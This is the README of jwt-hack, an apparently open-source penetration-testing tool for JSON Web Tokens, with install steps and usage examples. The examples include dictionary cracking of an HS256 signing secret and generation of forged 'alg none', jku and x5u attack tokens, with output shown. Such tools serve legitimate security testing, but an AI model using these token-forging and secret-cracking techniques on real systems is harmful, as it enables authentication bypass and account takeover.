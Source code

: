 <h1 align="center">
  <br>
  <a href=""><img src="https://user-images.githubusercontent.com/13212227/91675684-26561500-eb78-11ea-9f59-d904d743afae.png" alt="" width="260px;"></a>
  <br>
  Hack the JWT(JSON Web Token)
  <br>
  <img src="https://img.shields.io/github/v/release/hahwul/jwt-hack?style=flat"> 
  <a href="https://snapcraft.io/jwt-hack"><img alt="jwt-hack" src="https://snapcraft.io/jwt-hack/badge.svg" /></a>
  <img src="https://img.shields.io/github/languages/top/hahwul/jwt-hack?style=flat"> 
  <img src="https://app.codacy.com/project/badge/Grade/77bdf42ef06a430a9bfb46f15eb86626"> 
  <a href="https://goreportcard.com/report/github.com/hahwul/jwt-hack"><img src="https://goreportcard.com/badge/github.com/hahwul/jwt-hack"></a>
  <img src="https://github.com/hahwul/jwt-hack/workflows/Docker%20CI/badge.svg">
  <img src="https://github.com/hahwul/jwt-hack/workflows/CodeQL/badge.svg">
  <img src="https://github.com/hahwul/jwt-hack/workflows/Go/badge.svg">
  <a href="https://twitter.com/intent/follow?screen_name=hahwul"><img src="https://img.shields.io/twitter/follow/hahwul?style=flat&logo=twitter"></a>
  <a href="https://github.com/hahwul"><img src="https://img.shields.io/github/followers/hahwul?style=flat&logo=github"></a>
  <a href="https://github.com/hahwul"><img src="https://img.shields.io/github/stars/hahwul?style=flat&logo=github"></a>
  <a href="https://paypal.me/hahwul"><img src="https://img.shields.io/badge/support-$-ff69b4.svg?style=flat&logo=paypal"></a>
  <a href="https://www.buymeacoffee.com/hahwul"><img src="https://img.shields.io/badge/support-@-ff69b4.svg?style=flat&color=orange&logo=buy%20me%20a%20coffee"></a>
</h1>

## Installation
### go-get(dev version)
```
$ go get -u github.com/hahwul/jwt-hack
```

### homebrew
```
$ brew tap hahwul/jwt-hack
$ brew install jwt-hack
```

### snapcraft
```
$ sudo snap install jwt-hack
```

## Usage
```
   d8p 8d8   d88 888888888          888  888 ,8b.     doooooo 888  ,dP
   88p 888,o.d88    '88d     ______ 88888888 88'8o    d88     888o8P'
   88P 888P`Y8b8   '888      XXXXXX 88P  888 88PPY8.  d88     888 Y8L
88888' 88P   YP8 '88p               88P  888 8b   `Y' d888888 888  `8p
-------------------------
Hack the JWT(JSON Web Token) | by @hahwul | v1.0.0

Usage:
  jwt-hack [command]

Available Commands:
  crack       Cracking JWT Token
  decode      Decode JWT to JSON
  encode      Encode json to JWT
  help        Help about any command
  payload     Generate JWT Attack payloads
  version     Show version

Flags:
  -h, --help   help for jwt-hack
```

![1414](https://user-images.githubusercontent.com/13212227/97078000-8a023900-1623-11eb-844f-ee92399be392.png)

## Encode mode(JSON to JWT)
```
$ jwt-hack encode '{"json":"format"}' --secret={YOUR_SECRET}
```

e.g
```
$ jwt-hack encode '{"test":"1234"}' --secret=asdf
   d8p 8d8   d88 888888888          888  888 ,8b.     doooooo 888  ,dP
   88p 888,o.d88    '88d     ______ 88888888 88'8o    d88     888o8P'
   88P 888P`Y8b8   '888      XXXXXX 88P  888 88PPY8.  d88     888 Y8L
88888' 88P   YP8 '88p               88P  888 8b   `Y' d888888 888  `8p
-------------------------
INFO[0000] Encoded result                                algorithm=HS256
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0ZXN0IjoiMTIzNCJ9.JOL1SYkRZYUz9GVny-DgoDj60C0RLz929h1_fFcpqQA
```

## Decode mode(JWT to JSON)
```
$ jwt-hack decode {JWT_CODE}
```

e.g 
```
$ jwt-hack decode eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c

   d8p 8d8   d88 888888888          888  888 ,8b.     doooooo 888  ,dP
   88p 888,o.d88    '88d     ______ 88888888 88'8o    d88     888o8P'
   88P 888P`Y8b8   '888      XXXXXX 88P  888 88PPY8.  d88     888 Y8L
88888' 88P   YP8 '88p               88P  888 8b   `Y' d888888 888  `8p
-------------------------
INFO[0000] Decoded data(claims)                          header="{\"alg\":\"HS256\",\"typ\":\"JWT\"}" method="&{HS256 5}"
{"iat":1516239022,"name":"John Doe","sub":"1234567890"}
```

## Crack mode(Dictionary attack / BruteForce)
```
$ jwt-hack crack -w {WORDLIST} {JWT_CODE}
```

e.g
```
$ jwt-hack crack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.5mhBHqs5_DTLdINd9p5m7ZJ6XD0Xc55kIaCRY5r6HRA -w samples/wordlist.txt

   d8p 8d8   d88 888888888          888  888 ,8b.     doooooo 888  ,dP
   88p 888,o.d88    '88d     ______ 88888888 88'8o    d88     888o8P'
   88P 888P`Y8b8   '888      XXXXXX 88P  888 88PPY8.  d88     888 Y8L
88888' 88P   YP8 '88p               88P  888 8b   `Y' d888888 888  `8p
-------------------------
[*] Start dict cracking mode
INFO[0000] Loaded words (remove duplicated)              size=16
INFO[0000] Invalid signature                             word=fas
INFO[0000] Invalid signature                             word=asd
INFO[0000] Invalid signature                             word=1234
INFO[0000] Invalid signature                             word=efq
INFO[0000] Invalid signature                             word=asdf
INFO[0000] Invalid signature                             word=2q
INFO[0000] Found! Token signature secret is test         Signature=Verified Word=test
INFO[0000] Invalid signature                             word=dfas
INFO[0000] Invalid signature                             word=ga
INFO[0000] Invalid signature                             word=f
INFO[0000] Invalid signature                             word=ds
INFO[0000] Invalid signature                             word=sad
INFO[0000] Invalid signature                             word=qsf
...
INFO[0000] Invalid signature                             word=password
INFO[0000] Invalid signature                             word=error
INFO[0000] Invalid signature                             word=calendar
[+] Found! JWT signature secret: test
[+] Finish crack mode
```

## Payload mode(Alg none attack, etc..)
```
$ jwt-hack payload {JWT_CODE}
```

e.g
```
$ jwt-hack payload eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.5mhBHqs5_DTLdINd9p5m7ZJ6XD0Xc55kIaCRY5r6HRA
   d8p 8d8   d88 888888888          888  888 ,8b.     doooooo 888  ,dP
   88p 888,o.d88    '88d     ______ 88888888 88'8o    d88     888o8P'
   88P 888P`Y8b8   '888      XXXXXX 88P  888 88PPY8.  d88     888 Y8L
88888' 88P   YP8 '88p               88P  888 8b   `Y' d888888 888  `8p
-------------------------
payload called
INFO[0000] Generate none payload                         header="{\"alg\":\"none\",\"typ\":\"JWT\"}" payload=none
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.
INFO[0000] Generate NonE payload                         header="{\"alg\":\"NonE\",\"typ\":\"JWT\"}" payload=NonE
eyJhbGciOiJOb25FIiwidHlwIjoiSldUIn0=.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.
INFO[0000] Generate NONE payload                         header="{\"alg\":\"NONE\",\"typ\":\"JWT\"}" payload=NONE
eyJhbGciOiJOT05FIiwidHlwIjoiSldUIn0=.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.
INFO[0000] Generate jku payload                          header="{\"alg\":\"hs256\",\"jku\":\"https://www.google.com\",\"typ\":\"JWT\"}" payload=jku
eyJhbGciOiJoczI1NiIsImprdSI6Imh0dHBzOi8vd3d3Lmdvb2dsZS5jb20iLCJ0eXAiOiJKV1QifQ==.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.
INFO[0000] Generate x5u payload                          header="{\"alg\":\"hs256\",\"x5u\":\"https://www.google.com\",\"typ\":\"JWT\"}" payload=x5u
eyJhbGciOiJoczI1NiIsIng1dSI6Imh0dHBzOi8vd3d3Lmdvb2dsZS5jb20iLCJ0eXAiOiJKV1QifQ==.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.
```
